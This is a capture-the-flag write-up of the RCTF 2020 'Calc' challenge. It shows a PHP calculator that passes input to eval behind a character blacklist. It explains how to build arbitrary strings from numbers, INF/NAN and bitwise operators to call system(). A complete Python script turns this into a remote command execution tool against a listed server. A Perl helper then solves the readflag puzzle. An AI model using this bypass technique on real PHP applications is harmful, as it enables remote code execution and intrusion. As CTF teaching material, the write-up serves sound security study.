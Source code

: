 ```yaml
---
layout: post
title:  "Calc - a WAF bypass for arbitrary code execution in PHP using just numbers and symbols (RCTF 2020)"
date:   2020-06-10 07:55:19 -0400
categories: web rctf2020 php
---
```


## Introduction

Here's an interesting problem I solved from the recent RCTF. We are given a web form that allows us to input values and operations to a calculator and the results will be printed. For example, the query `1+1` would give us `2`. _(I didn't take a screenshot of the normal operation when the competition server was still up, so you would have to use your own imagination)_. It's highly likely that the backend is doing some sort of `eval` to perform this arithmetic operation, so we investigate further.


## Enumeration
We see that the endpoint of the POST request containing the arithmetic operation is to `/calc.php`, so we make a GET request, which recovers the the source code below:

{% highlight php %}
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
    $str = $_GET['num']; 
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ',']; 
    foreach ($blacklist as $blackitem) { 
        if (preg_match('/' . $blackitem . '/im', $str)) { 
            die("what are you want to do?"); 
        } 
    } 
    @eval('echo '.$str.';'); 
} 
?> 
{% endhighlight %}

We see that our parameter `num` is assigned to `$str` and passed into `eval`. This means we can have remote code execution if we bypass the blacklist! 

#### A small aside: How to know if it's PHP

Of course, we were given full source code recovery for this challenge (I actually didn't know about this until a teammate told me about it after I completed the challenge). From the execution of the code there are some heuristics that we can use to determine the backend for the code evaluation:

1. **Response Headers.** The headers returned in the response might indicate the backend used to evaluate your request. For example, in the challenge, the response had a `X-Powered-By` header with the value `PHP/7.4.6`.
2. **Rendering of special floats.** In PHP, evaluation `1/0` gives you `INF` and `0/0` gives you `NAN` without throwing an exception (but it does show a warning), which I believe is unique to PHP.


## Blacklist/WAF bypass - Using just numbers and symbols for ACE

Now comes the interesting part of the challenge. As a lazy hacker I went to look for existing WAF bypasses in PHP and came across [this article on bypassing WAF without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/). While this may seem at first to work, the subset of symbols that we are allowed is much more restricted. For example, we do not have the `$` operator so we can't define new variables, nor can we define arrays (since `[` and `]` are blocked) or strings (since `'` and `"` are blocked). However, the article does elucidate an interesting fact: *if we can construct arbitrary strings, we are done*.

### Fun function calls via variable functions
But you might be wondering, how do we call functions using just a string? I am glad you asked. I didn't believe it at first, but you can simply call functions in PHP just by their stringified identifier. You can try this yourself by running the following code snippet.

{% highlight php %}

<?php

function foo() {
    echo "In foo()<br />\n";
}

'foo'();

{% endhighlight %}

The output that is returned is `In foo()<br />`, which means the function `foo` was called. This is due to a feature in PHP known as [**variable functions**](https://www.php.net/manual/en/functions.variable-functions.php). From the PHP docs:

>  if a variable name has parentheses appended to it, PHP will look for a function with the same name as whatever the variable evaluates to, and will attempt to execute it ... this can be used to implement callbacks, function tables, and so forth.

Note that this function calling convention, like normal PHP functions, is ___case insensitive___, but we won't be using that fact here.

However, there is a caveat:

> Variable functions won't work with language constructs such as echo, print, unset(), isset(), empty(), include, require and the like

A list of language constructs can be found [here](https://www.php.net/manual/en/reserved.keywords.php). A quick glance through the list and we find that our desired function to call (`system`) is not on the list. This means we are good to go!


### Constructing characters

What's left is actually constructing the characters. The blacklist essentially gives us numeric inputs and a limited subset of symbols.

#### Baby's First String
I quickly managed to find a way of constructing a string using the following payload:

{% highlight php %}
(0).(0) // evaluates to '00'
{% endhighlight %}


This is allowed because PHP is loosely typed and the [string concatenation operator](https://www.php.net/manual/en/language.operators.string.php) `.` coerces the type of the operands to be strings, so the result is the string `00`. Note that if the parentheses were removed, we would get `0.0` which is a float.


Speaking of floats, I decided to try something interesting. Recall that we previously tried to use special numbers in floats to identify the backend. In this case, we can concatenate two of these special floats together to form a cute string.

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
(0/0).(0/0) // evaluates to "NANNAN" (batman)
{% endhighlight %}


So we technically have the strings `"NAN", "INF", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`, but any combination of these strings won't give us shell _(yet)_, we have to dig deeper!

#### Looking for more primitives
I got stuck here for quite a bit and decided to look for all possible operators in PHP. I did browse around and managed to find that `->`, `=>`, `{`, `}` and `::` are legal operators through extensive web searching (thanks Google!). While writing this article I found a more [extensive list of tokens that are used in PHP](https://www.php.net/manual/en/tokens.php) which would have been much better resource.

I toyed around with the idea of using `->` (which is the `T_OBJECT_SEPARATOR` used to assign and retrieve values from an object), `=>` (which is the `T_DOUBLE_ARROW` used to assign values in an array), and `::` (which is a [scope resolution operator](https://www.php.net/manual/en/language.oop5.paamayim-nekudotayim.php) which has a pretty interesting history behind its name) before realizing they won't work.

Finally, we are left with `{` and `}`. These symbols are actually pretty interesting - a quick tl;dr of what happened was that they were introduced to replace `[` and `]` as array accesses, but later realized it was a bad idea, so they deprecated it and tried to revert the change but then realized that was a bad idea too. Now, [it can be used interchangeably](https://www.php.net/manual/en/language.types.array.php) and [works for string array index access as well](https://www.php.net/manual/en/language.types.string.php), though it does warn that it would be deprecated in newer versions of PHP. That aside, we now have the following string index access primitive:

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
((1/0).(1/0)){0} // evaluates to "I"
{% endhighlight %}

So we now have the strings `"N", "A", "I", "F", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`. We can also add additional characters like `"."` from coercing floats to strings and `"-"` by coercing negative numbers, but we still don't have the write letters to construct calls to functions that we want, and we still can't construct arbitrary characters. If only we had some way of changing these characters...

#### Quick Math with Strings

I continued to play around to see how to change the characters (either by incrementing them or decrementing them like via `++`) but without variable declarations this was impossible. I later came across a [Web CTF resource](https://github.com/w181496/Web-CTF-Cheatsheet) that hinted to look at the `~` operator, which is the bitwise not operator. I tried it and lo and behold:

{% highlight php %}
(((0/0).(1)){0}).(~((1).(1/0))) // evaluates to Nζ��
{% endhighlight %}

Finally we are getting somewhere! We see that we have constructed some other character that is not in our original list of characters. It seems that [bitwise operations](https://www.php.net/manual/en/language.operators.bitwise.php) like `|`, `&`, `^` and `~` are also defined for strings in PHP. Note that we can't use `^` since it's banned, and `>>` and `<<` coerces the type of the operands to be integers. We can now construct printable ASCII, as below.

{% highlight php %}
(((1/0).(1/0)){0})|((1).(1)){0} // evaluates to 'y'
{% endhighlight %}

With these bitwise operators, we can easily construct any 7-bit ASCII character if we get the equivalent representation of `chr(1)`, `chr(2)`, `chr(4)`, `chr(8)`, `chr(16)`, `chr(32)` and `chr(64)`. We do some quick math (aka figuring out how to extract each of these bits from the characters we already have) and we have the following mapping for each of these bits.

{% highlight python %}
mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}
{% endhighlight %}

For example, the ASCII letter `a` which corresponds to the ordinal `97` or `0b1100001` can be constructed as follows:

{% highlight php %}
(1).(1){0}&((0/0).(0)){1} | ((0).(0){0})&(((1.5).(0)){1}) | (((1/0).(1)){0})&(((1/0).(1)){2})  // evaluates to chr(64 | 32 | 1) == 'a'
{% endhighlight %}

Now we can form arbitrary strings from arbitrary characters via the `.` string concatenation operator. Combining with the variable functions trick as above, we can call the equivalent of `'system'('uname -a')` to see if we can run arbitrary shell commands. We send it to the server we see that we have achieved arbitrary code execution!

![Shell get! Output of uname -a](/images/rctf2020-shell.png "Shell get!")

Enumerating the environment, we find a `/readflag` binary. We execute it, and we realize that this isn't the end!

![Readflag sadness](/images/rctf2020-puzzle.png "Readflag sadness")

### Breaking The readflag Puzzle

I didn't really like the next part of the challenge so much, as you will see why. Using the same script, I exfiltrated the readflag binary out and analyzed it. Long story short, it throws you a math challenge that you have to solve in 1ms. This means that you are supposed to get shell on the system to run a script that solves the problem, but a reverse shell wasn't possible due to network isolation. 

I looked up this online (since CTFs in the east tend to be inspired by previously released challenges) and [found the exact same readflag binary and with solve scripts in various languages described](https://www.secpulse.com/archives/105333.html). TL;DR my solution was to write one of the solve scripts to `/tmp` and execute it to get the flag. 

In writing the script to a file, I had to break it up into short chunks per line since the encoding for each byte was fairly large. It is worth noting that other teams found interesting ways of bypassing the URL parameter length limit (which I found to be around 8000-ish bytes), and the [ROIS team's writeup](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc) details interesting alternative solutions to this problem.

Balsn also has a bunch of tricks that they use to solve the `readflag` binary, as noted [here](https://balsn.tw/ctf_writeup/20190427-*ctf/#solve_readflag-(not-a-challenge)).

## Final Script

The final solve scripts are provided below.

### solve.py
{% highlight python %}
#!/usr/bin/env python

import requests
import sys
import pipes

url='http://124.156.140.90:8081/calc.php?'

mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    48: '(0).(0){0}',
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}

idxs = [64, 48, 32, 16, 8, 4, 2, 1]

def construct_char(c):
    val = ord(c)

    payload = "("
    for idx in idxs:
        if (val >= idx):
            val -= idx
            payload += mapping[idx]
            if (val != 0):
                payload +='|'

    assert val == 0
    payload += ")"

    return payload

def construct_string(s):
    payload = "("
    for i, c in enumerate(s):
        payload += construct_char(c)
        if (i != len(s) - 1):
            payload += "."

    payload += ")"
    return payload

def call_fn(f, a):
    fn_s = construct_string(f)
    fn_a = construct_string(a)
    return fn_s + "(" + fn_a + ")"

### Actually solve for flag
# write the evil file to solves the puzzle
f = open('solve.perl', 'rt')
solver = f.read().split('\n')
f.close()

for s in solver:
    d = call_fn("system", """echo %s>>/tmp/b""" % pipes.quote(s))
    params = {'num': d }
    r = requests.get(url, params=params)
    print r.text

d = call_fn("system", """cat /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", """perl /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", "rm /tmp/b")
params = {'num': d }
r = requests.get(url, params=params)

### Uncomment to run arbitrary commands
#FUNCTION = "system"
#ARG = sys.argv[1]

#d = call_fn(FUNCTION, ARG)
#print len(d)
#print d

#params = {'num': d }
#r = requests.get(url, params=params)
#sprint r.text

{% endhighlight %}

### solve.perl
{% highlight perl %}
use 
IPC::Open3;
my $pid = 
open3( 
\*CHLD_IN, 
\*CHLD_OUT, 
\*CHLD_ERR, 
"/readflag"  
);
my $r;
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
$r=eval 
"$r";
print 
"$r\\n";
print 
CHLD_IN 
"$r\\n";
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
{% endhighlight %}


Relevant Resources:

- [Bypassing WAF for PHP webshell without letters or numbers](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
- [w181496's Web CTF Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)
- [ROIS's Writeup for Calc at RCTF2020 which explores alternative ways of loading the shell command to bypass the URL param size limit](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc)
- [EasyCalc at RoarCTF-2019, the precursor to this challenge](https://github.com/berTrAM888/RoarCTF-Writeup-some-Source-Code/tree/master/Web/easy_calc/writeup)
- [PHP Query String Parser Bypass](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/)

Hack on!
